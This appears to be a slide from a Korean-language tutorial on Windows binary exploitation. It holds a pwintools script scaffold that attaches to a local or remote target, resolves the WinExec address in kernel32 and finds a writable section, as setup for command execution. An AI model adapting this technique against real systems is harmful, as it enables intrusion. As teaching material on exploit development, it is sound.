

# 현실적인 문제 #1
# Sample exploit code
from pwintools import *
DEBUG = True
if DEBUG:
    p = process('binary.exe')
    k32 = PE(r'C:\Windows\System32\kernel32.dll')  # pwintools v0.4
    # p.spawn_debugger()
else:
    p = remote('IP', port)
    k32 = PE('kernel32.dll')

# assume we have k32_base
WinExec = k32_base + k32.symbols['WinExec']
for section in k32.sections:  # list of (base VA, 'RWX')
    if 'W' in section[1]:
        k32_writable = section[0]
        break
else:
    assert(False)
# now we have writable address @ k32_writable